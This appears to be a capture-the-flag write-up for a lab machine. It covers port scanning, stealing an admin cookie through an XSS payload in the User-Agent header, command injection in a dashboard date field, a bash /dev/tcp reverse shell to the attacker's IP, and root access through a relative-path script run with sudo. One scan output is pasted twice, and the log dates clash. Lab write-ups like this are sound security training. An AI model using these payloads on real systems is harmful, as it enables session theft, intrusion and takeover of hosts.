




## INITIAL ENUMERATION

```shell
nmap -sV -sC 10.129.45.159
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-29 14:01 EST
Nmap scan report for 10.129.45.159
Host is up (0.059s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  http    Werkzeug httpd 2.2.2 (Python 3.11.2)
|_http-title: Under Construction
|_http-server-header: Werkzeug/2.2.2 Python/3.11.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.93 seconds
```

## WEB

I scanned for hidden pages with `Fuff`:

```shell
ffuf -u http://10.129.45.159:5000/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-1.0.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.45.159:5000/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-1.0.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 2799, Words: 963, Lines: 96, Duration: 59ms]
# Suite 300, San Francisco, California, 94105, USA. [Status: 200, Size: 2799, Words: 963, Lines: 96, Duration: 62ms]
#                       [Status: 200, Size: 2799, Words: 963, Lines: 96, Duration: 58ms]
#                       [Status: 200, Size: 2799, Words: 963, Lines: 96, Duration: 80ms]
# Unordered case-sensitive list, where entries were found [Status: 200, Size: 2799, Words: 963, Lines: 96, Duration: 80ms]
#                       [Status: 200, Size: 2799, Words: 963, Lines: 96, Duration: 81ms]
# on at least 2 hosts.  This was the first draft of the list. [Status: 200, Size: 2799, Words: 963, Lines: 96, Duration: 81ms]
# directory-list-1.0.txt [Status: 200, Size: 2799, Words: 963, Lines: 96, Duration: 81ms]
#                       [Status: 200, Size: 2799, Words: 963, Lines: 96, Duration: 81ms]
# This work is licensed under the Creative Commons [Status: 200, Size: 2799, Words: 963, Lines: 96, Duration: 82ms]
# Copyright 2007 James Fisher [Status: 200, Size: 2799, Words: 963, Lines: 96, Duration: 89ms]
# Attribution-Share Alike 3.0 License. To view a copy of this [Status: 200, Size: 2799, Words: 963, Lines: 96, Duration: 94ms]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/ [Status: 200, Size: 2799, Words: 963, Lines: 96, Duration: 98ms]
# or send a letter to Creative Commons, 171 Second Street, [Status: 200, Size: 2799, Words: 963, Lines: 96, Duration: 98ms]
support                 [Status: 200, Size: 2363, Words: 836, Lines: 93, Duration: 58ms]
dashboard               [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 59ms]
```

I found `/dashboard` directory. Visiting it shows an authorized page:


Visiting the 5000 port I see this page:


I'll click on `For questions` botton, I'll redirect to `/support` page:


I'll fill the fields putting a XSS payload into **Message**:



I get an error message:



I scanned for hidden pages with `Fuff`:

```shell
ffuf -u http://10.129.45.159:5000/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-1.0.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.45.159:5000/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-1.0.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 2799, Words: 963, Lines: 96, Duration: 59ms]
# Suite 300, San Francisco, California, 94105, USA. [Status: 200, Size: 2799, Words: 963, Lines: 96, Duration: 62ms]
#                       [Status: 200, Size: 2799, Words: 963, Lines: 96, Duration: 58ms]
#                       [Status: 200, Size: 2799, Words: 963, Lines: 96, Duration: 80ms]
# Unordered case-sensitive list, where entries were found [Status: 200, Size: 2799, Words: 963, Lines: 96, Duration: 80ms]
#                       [Status: 200, Size: 2799, Words: 963, Lines: 96, Duration: 81ms]
# on at least 2 hosts.  This was the first draft of the list. [Status: 200, Size: 2799, Words: 963, Lines: 96, Duration: 81ms]
# directory-list-1.0.txt [Status: 200, Size: 2799, Words: 963, Lines: 96, Duration: 81ms]
#                       [Status: 200, Size: 2799, Words: 963, Lines: 96, Duration: 81ms]
# This work is licensed under the Creative Commons [Status: 200, Size: 2799, Words: 963, Lines: 96, Duration: 82ms]
# Copyright 2007 James Fisher [Status: 200, Size: 2799, Words: 963, Lines: 96, Duration: 89ms]
# Attribution-Share Alike 3.0 License. To view a copy of this [Status: 200, Size: 2799, Words: 963, Lines: 96, Duration: 94ms]
# license, visit http://creativecommons.org/licenses/by-sa/3.0/ [Status: 200, Size: 2799, Words: 963, Lines: 96, Duration: 98ms]
# or send a letter to Creative Commons, 171 Second Street, [Status: 200, Size: 2799, Words: 963, Lines: 96, Duration: 98ms]
support                 [Status: 200, Size: 2363, Words: 836, Lines: 93, Duration: 58ms]
dashboard               [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 59ms]
```

My attempts were blocked. But it also displayed my request headers back to me. I tried sending my malicious payload in a `Usert-Agent`.

```
POST /support HTTP/1.1
Host: target.htb:5000
User-Agent: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 106
Origin: http://target.htb:5000
Connection: keep-alive
Referer: http://target.htb:5000/support
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1

fname=first&lname=last&email=test%40test.com&phone=phone&message=
```

I started a web server on my machine and a few seconds after my request I got a request from the server.

```c
python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.243.69 - - [09/Jun/2024 09:55:36] code 404, message File not found
10.129.243.69 - - [09/Jun/2024 09:55:36] "GET /agent HTTP/1.1" 404 -
```

It was vulnerable to XSS and something on the server was looking at the reports. I tried sending my server the cookies of the user looking at the reports.

```
POST /support HTTP/1.1
Host: target.htb:5000
User-Agent: <script>new Image().src="http://10.10.14.108/cookie?c="+document.cookie;</script>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 106
Origin: http://target.htb:5000
Connection: keep-alive
Referer: http://target.htb:5000/support
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1

fname=first&lname=last&email=test%40test.com&phone=phone&message=
```

I waited, and got the admin cookie.

```shell
10.129.45.159 - - [29/Nov/2025 14:29:01] code 404, message File not found
10.129.45.159 - - [29/Nov/2025 14:29:01] "GET /cookie.php?c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 404 -
```


I changed my cookie value in the browser and tried accessing the dashboard again.


Clicking “Generate Report” shows a message under the form:



The HTTP request that is sent when clicked is:

```
POST /dashboard HTTP/1.1
Host: 10.129.45.159:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://10.129.45.159:5000
Connection: keep-alive
Referer: http://10.129.45.159:5000/dashboard
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Upgrade-Insecure-Requests: 1
Priority: u=0, i

date=2023-09-15
```

I tried sending it a command to run.

```
POST /dashboard HTTP/1.1
Host: 10.129.45.159:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 18
Origin: http://10.129.45.159:5000
Connection: keep-alive
Referer: http://10.129.45.159:5000/dashboard
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Upgrade-Insecure-Requests: 1
Priority: u=0, i

date=2023-09-15;ls
```

It got executed.



From here I can try to get a reverse shell in URL encode:

```
POST /dashboard HTTP/1.1
Host: 10.129.45.159:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 101
Origin: http://10.129.45.159:5000
Connection: keep-alive
Referer: http://10.129.45.159:5000/dashboard
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Upgrade-Insecure-Requests: 1
Priority: u=0, i

date=2023-09-15;bash+-c "%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.108%2F4444%200%3E%261"
```

I get a reverse shell:

```shell
nc -lvnp 4444             
listening on [any] 4444 ...
connect to [10.10.14.108] from (UNKNOWN) [10.129.45.159] 34028
bash: cannot set terminal process group (1167): Inappropriate ioctl for device
bash: no job control in this shell
dvir@headless:~/app$ whoami
whoami
dvir
```

## USER FLAG

```shell
dvir@headless:~$ pwd
/home/dvir
dvir@headless:~$ cat user.txt
2b6331d7bb485743f575df1aa291b1ed
```

## ROOT FLAG

Once I had a shell, I looked at what I could do.

```c
dvir@headless:/usr/bin$ sudo -l     
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

I can execute `/usr/bin/syscheck` with sudo privileges without password:

```shell
dvir@headless:/usr/bin$ sudo  /usr/bin/syscheck
sudo  /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 1.9G
System load average:  0.00, 0.02, 0.00
Database service is not running. Starting it...
```

I was allowed to run a script as any user. The script appeared to be doing a few checks on the server. I looked at its source code.

```shell
dvir@headless:/usr/bin$ cat /usr/bin/syscheck
cat /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0

```


The call to `./initdb.sh` stood out in the script. It was the only command that did not use an absolute path. Instead it was being executed in the current directory. I needed to create a script with this name in my home folder, and it would be executed as root with `sudo`.

```shell
dvir@headless:~$ echo '#!/bin/bash' > initdb.sh
dvir@headless:~$ echo '/bin/bash -p' >> initdb.sh
dvir@headless:~$ chmod +x initdb.sh
```

The `-p` options hold the root privileges when the shell is open.

Now I can run `sudo /usr/bin/syscheck` again:

```shell
dvir@headless:~$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 1.9G
System load average:  0.00, 0.00, 0.00
Database service is not running. Starting it...
whoami
root
```

And I can get the flag:

```shell
root@headless:~# cat root.txt
4af3ae01ba083bcfef6b470137a94662
```

